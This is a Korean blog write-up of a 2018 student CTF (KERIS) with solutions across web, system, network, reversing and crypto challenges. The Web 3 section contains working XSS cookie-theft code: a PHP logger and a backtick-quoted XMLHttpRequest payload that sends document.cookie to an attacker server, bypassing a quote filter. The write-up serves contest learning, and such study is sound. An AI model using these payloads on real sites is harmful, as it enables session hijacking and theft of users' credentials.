

# KERIS 제 4회 정보보안경진대회
전국 12등(서울 8등) ㅜㅜ 



## 법률, 일반(위에 2줄)
잘 모르는 문제도 구글링하면 (진짜로) 5분도 안되서 슥삭할 수 있다.

## 시스템 1
커맨드인젝션이 발생한다. 삽질기랑 풀이는 나중에 쓰도록 하겠다.

## 시스템 2
`exec()`로 명령어를 입력받아 쉘에서 실행하는 프로그램이다.

아무런 필터링 없이 그냥 `cat flag` 했더니 플래그가 나왔다. 약간 어이없었는데 플래그 내용도 fake love 어쩌고 하길래 페이크인 줄 알았는데 진짜였다(...).

> `FLAG{Fak3_L0v3_i5_7h3_s3v3n733n7h_n0n-Eng1i5h_50ng}`

## 시스템 3

## 웹 1
매우 허술해 보이는 로그인 페이지가 나타났다. `' OR '1'=='1`이였나 했더니 `alert()`로 플래그가 나왔다.

> `FLAG{I_4m_k1ng_0f_tH2_w0rlD!}`

## 웹 2
소스를 봤더니 이상한 이미지를 로드하고 막 나눠서 뿌린다. 원래 이미지의 src를 구해서 들어가면(console에서 뚝딱할 수 있다) 플래그가 적혀있다.

플래그가 뭐였는지는 기억이 안난다.

> `FLAG{???}`

## 웹 3
게시글을 올리고 바로 볼 수 있는데 XSS가 발생한다. 

쿠키를 확인해보니 여기에 플래그가 들어간다! 이러길래 여기에 스크립트를 올려놓으면 쿠키가 설정된 봇이 읽는 것 같았다.

```html
<!-- cookie.php -->
<!-- usage : <script>location.href = "http://{server-addr}/cookie?c=" + document.cookie;</script> -->
<?php 
    fwrite(fopen('cookie.txt', 'a'), $_GET['c'] . "\n"); 
?>
```

서버에 [cookie.php](https://gist.github.com/junhoyeo/fbaae934e12f67036a1c056c6c075348)를 올려두고 `location.href=` 어쩌고 할려고 했는데 `location`이 들어가면 XSS라면서 제대로 등록되지 않는다.
`XMLHttpRequest`로 GET 리퀘스트를 보내는 방법으로 쿠키 탈취를 시도했는데 `'`, `"`가 필터링되어서 없어져 버린다.

```js
x = String(/some-string/) // "/some-string/"
x = x.substring(1, x.length-1) // "some-string"
```

위와 같은 방법으로 정규식을 이용해서 필터링 bypass를 시도해봤는데 코드가 너무 길어져서 `input error`가 나온다.

```js
function httpGet(e){
    var t = new XMLHttpRequest;
    return t.open(`GET`, e, !1), t.send(null), t.responseText
}
var u = `http://{server-addr}/cookie.php?c=`;
httpGet(u+document.cookie);
```

구글링을 열심히 해보니 \`를 이용해서 문자열을 선언해도 JS에서는 제대로 인식한다는 것을 알 수 있었다.

대충 위와 같이 스크립트를 짜고(난독화 결과) 쓸데없는 공백과 개행을 없애고 포스팅했다.

스크립트가 제대로 들어간 것을 확인한 뒤 콘솔을 보니까 보안정책 어쩌고 나오길래 안되는 줄 알았다.

```
flag=Flag is Here!!
flag=Flag is Here!!
flag=w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
```

서버의 `cookie.txt`를 보니까 플래그가 나와있었다.

> `w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct`

## 네트워크 1
검색하고 follow TCP stream 하면 조각조각 나온다.

> `flag{N3tw0rk_Ch@llenge_SOlv3d!_Congr@tz!!}`

## 네트워크 2
드래곤볼하라는 문제인데 결국 못풀었다.

## 네트워크 3
3단계로 구성되어 있다.

### 1단계: 기본 정보 확인 
```
Router> show version
    [+] FLAG1{ C15c0_Pack3t_Tr4c3r_H4ve_U }
```

### 2단계: config 모드에서 기본 설정
```
Router> enable
Router# configure terminal
Router(config)# hostname keris2018
    [+] Ok, you set hostname
Router(config)# enable secret keris2018secret
    [+] Ok, you set enable secret
Router(config)# enable password whoisthewinnerofkeris2018
    [+] Ok, you set enable password
    FLAG2{ Ev3r_u5ed_ittttt? }
```

### 3단계: 암호화된 password 확인
```
Router(config)# exit
Router# show running-config
    enable password 7 08364441000A111F171C050A242E3627353E27010E0551510701
```

`flag1_flag2_encrypt1234` 형식이다.

> `C15c0_Pack3t_Tr4c3r_H4ve_U_Ev3r_u5ed_ittttt?_08364441000A111F171C050A242E3627353E27010E0551510701`

## 역공학 1
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400686 <+0>:	push   rbp
   0x0000000000400687 <+1>:	mov    rbp,rsp
   0x000000000040068a <+4>:	sub    rsp,0x10
   0x000000000040068e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400697 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040069b <+21>:	xor    eax,eax
   0x000000000040069d <+23>:	mov    edi,0x400784
   0x00000000004006a2 <+28>:	call   0x400520 <puts@plt>
   0x00000000004006a7 <+33>:	lea    rax,[rbp-0xc]
   0x00000000004006ab <+37>:	mov    rsi,rax
   0x00000000004006ae <+40>:	mov    edi,0x400797
   0x00000000004006b3 <+45>:	mov    eax,0x0
   0x00000000004006b8 <+50>:	call   0x400560 <__isoc99_scanf@plt>
   0x00000000004006bd <+55>:	mov    eax,DWORD PTR [rbp-0xc]
   0x00000000004006c0 <+58>:	cmp    eax,0x1c05523
   0x00000000004006c5 <+63>:	jne    0x4006db <main+85>
   0x00000000004006c7 <+65>:	mov    edi,0x40079a
   0x00000000004006cc <+70>:	call   0x400540 <system@plt>
   0x00000000004006d1 <+75>:	mov    edi,0x0
   0x00000000004006d6 <+80>:	call   0x400570 <exit@plt>
   0x00000000004006db <+85>:	mov    edi,0x4007a3
   0x00000000004006e0 <+90>:	call   0x400520 <puts@plt>
   0x00000000004006e5 <+95>:	mov    eax,0x0
   0x00000000004006ea <+100>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006ee <+104>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004006f7 <+113>:	je     0x4006fe <main+120>
   0x00000000004006f9 <+115>:	call   0x400530 <__stack_chk_fail@plt>
   0x00000000004006fe <+120>:	leave  
   0x00000000004006ff <+121>:	ret    
End of assembler dump.
gdb-peda$ x/s 0x400784
0x400784:	"Type your password"
gdb-peda$ x/s 0x400797
0x400797:	"%d"
gdb-peda$ x/s 0x40079a
0x40079a:	"cat flag"
gdb-peda$ x/s 0x4007a3
0x4007a3:	"Wrong..."
gdb-peda$
```

`cmp eax,0x1c05523`에서 입력값을 `0x1c05523`와 비교한다. 따라서 패스워드는 `29381923`

패스워드를 정확하게 입력하면 플래그를 준다.

> `FLAG{???}`

## 역공학 2
[여기](https://github.com/cokia/CTF-Writeup/tree/master/2018%20%E1%84%8C%E1%85%A5%E1%86%BC%E1%84%87%E1%85%A9%E1%84%87%E1%85%A9%E1%84%92%E1%85%A9%20%E1%84%8B%E1%85%A7%E1%86%BC%E1%84%8C%E1%85%A2%E1%84%80%E1%85%AD%E1%84%8B%E1%85%B2%E1%86%A8%E1%84%8B%E1%85%AF%E1%86%AB%20(keris)%202018%20%E1%84%8B%E1%85%A8%E1%84%89%E1%85%A5%E1%86%AB#2rev2---%EB%A7%9D%EA%B3%A0%EA%B5%AC%EC%95%84%EB%B0%94-400p)에서처럼 입력받은 메세지(플래그)가 맞는지 확인하는 로직이 있다. 건드리지도 않았다가 끝나고 풀었다. [익스 참고](./mango.py)

> `Go_4head_make_YouR_DaY^^X`

## 역공학 3
시간이 없어서 못 살펴봤다.

## 암호학 1
파이썬 오픈소스인 xor_solver를 이용해서 풀었다. [익스 참고](./exploit.py)

`x = xor_solver(string.printable)`로 모든 printable한 string인 key에 대해서 찾고, key는 한자리라고 했으니까 `x.solve("$.#%96-&#;b+1b!.-7&;lb1-b/;b$''.+,%b+1b,-6b%--&b'+6*'0l?", 1)` 이렇게 두면 된다.

그런데 결과가 너무 많아서 진짜 플래그가 있는지 확인하고 찾는 게 쉽지 않다. `a in b`로 찾을 수 있는데 `flag` 문자열이 대문자로 들어갈지 소문자로 들어갈지 확실하지 않다.
그럴 땐 `'flag' in flag.lower()` 이렇게 해서 소문자로 다 내리고 찾으면 된다.

> `flag{today is cloudy. so my feeling is not good either.}`

## 암호학 2 (예상풀이)
~~뚜까~~

1. 스케테일임
2. 키도 없음
3. 입력 제한시간이 매우 짧음

**해야 하는 것:** 입력 후딱 받아서 키는 브포하고 가장 평문일 가능성이 높은 값을 찾아서 보내주기 => 엥 이런 solver를 시간 내에 짜는 게 가능해? => 어차피 나오는 평문은 한정되어 있지 않을까(정성이 대단하던데)

**예상풀이:**

1. pwntools 몇번 돌려서 암호화된 텍스트 몇개를 저장
2. https://www.dcode.fr/scytale-cipher
여기서 노가다해서 원래 평문을 찾아 매핑
3. 다시 pwntools에서 암호문을 recv, 이에 해당하는 평문을 출력(만약 저장된 값이 아니면 close해서 던지고 다시 봄)

**문제:**
평문은 한정되어 있어도 key를 엄청 달리해서 만들었을 수도 있음(실제로 그런듯)

**예상풀이:**
`암호문:평문`으로 매핑할 때 함께 (예상)평문과 key가 다른 암호문도 매핑 => 매크로를 만든다

**문제:**
시간이 오래 걸린다 

**결론:**
그냥 몇개만 저장해두고 key랑 암호문이 때려맞길 기대한다 => ??? => profit!!!

## 암호학 3
시간이 없어서 못 살펴봤다.

